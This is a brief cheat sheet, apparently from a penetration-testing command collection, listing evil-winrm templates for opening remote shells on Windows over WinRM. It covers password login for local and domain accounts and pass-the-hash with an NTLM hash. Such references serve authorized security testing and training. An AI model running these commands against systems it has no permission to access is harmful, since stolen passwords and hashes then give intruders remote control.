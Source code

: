 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```
evil-winrm -i <ip> -u <user>@<domain> -p <password>
```

## local account pth
```
evil-winrm -i <ip> -u <user> -H <hash>
```

## domain account pth
```
evil-winrm -i <ip> -u <user>@<domain> -H <hash>
```